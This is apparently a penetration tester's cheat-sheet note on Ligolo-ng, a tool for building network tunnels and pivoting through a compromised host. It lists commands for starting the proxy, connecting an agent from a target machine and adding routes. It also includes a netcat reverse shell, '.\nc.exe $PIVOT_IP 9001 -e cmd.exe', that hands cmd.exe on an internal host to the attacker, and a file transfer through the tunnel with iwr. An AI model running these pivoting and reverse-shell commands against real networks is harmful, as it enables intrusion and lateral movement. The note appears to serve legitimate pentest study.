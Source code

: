 ```yaml
---
tags:
  - tool
  - tunneling
---
```

# Ligolo-ng

A _simple_, _lightweight_ and _fast_ tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a **tun interface** (without the need of SOCKS) - [ligolo-ng](https://github.com/nicocha30/ligolo-ng)

```bash
# Configure the network interface
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up

# Cleanup the network interface (automatically performed on reboot)
sudo ip link delete ligolo
```

See [Youtube](https://www.youtube.com/watch?v=DM1B8S80EvQ)

## Capabilities

```bash
# Start agent on kali
~/compiled_binaries/ligolo/proxy -selfcert

# Connect to agent on target
.\agent.exe -connect $OUR_IP:11601 -retry -ignore-cert
```

### Establish tunnel

**In Logolo session:**

```bash
# Select session
session

# Check interface information
ifconfig
```

**In normal terminal:**

```bash
# Add routing information to global routing table
sudo ip route add $TARGET_CIDR dev ligolo

# Confirm routing information
ip r
```

**In Logolo Session:**

```bash
# Start the tunnel
start
```

### Forward Reverse Shell Connections

**In Logolo session:**

```bash
# Setup listener
listener_add --addr 0.0.0.0:443 --to 127.0.0.1:443

# Check listeners
listener_list
```

**In normal terminal:**

```bash
# On kali machine
rlwrap -crA nc -lvnp 9001

# On internal host
.\nc.exe $PIVOT_IP 9001 -e cmd.exe
```

### Upload Files

**In Logolo session:**

```bash
# Setup listener for uploading files with python simple http server
listener_add -addr 0.0.0.0:9002 --to 127.0.0.1:80
```

**In normal terminal:**

```bash
# On kali machine
python3 -m http.server 80

# On internal host
iwr -uri http://$PIVOT_IP:9002/example.txt -outfile example.txt
```
